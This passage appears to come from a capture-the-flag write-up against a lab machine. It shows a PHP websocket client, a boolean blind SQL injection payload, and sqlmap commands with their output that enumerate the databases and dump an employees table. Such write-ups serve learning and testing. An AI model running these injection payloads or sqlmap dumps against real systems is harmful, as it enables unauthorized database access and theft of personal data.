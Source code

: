 ```php
echo $client->receive();
$client->close();

?>
```

![](screenshots/websocket-client-server.png)

### Boolean based Blind SQL Injection

* Found injection with payload: `1 AND 1=1`

And now we can use sqlmap to automate sql injection.

Some sqlmap flags to make scan more acurate based on known information.
```bash
--technique=TECH..  SQL injection techniques to use (default "BEUSTQ")
--string=STRING     String to match when query is evaluated to True
```

```bash
#retrieving database names
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql --dbs

available databases [3]:
[*] crossfit
[*] employees
[*] information_schema

#retrieving tables
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees --tables

Database: employees
[2 tables]
+----------------+
| employees      |
| password_reset |
+----------------+

#dump data
sqlmap -u 'http://10.10.15.71:8000/websocket-client.php?id=1' --batch --string='Good news!' --technique=B --threads=10 --dbms=mysql -D employees -T employees --dump
```
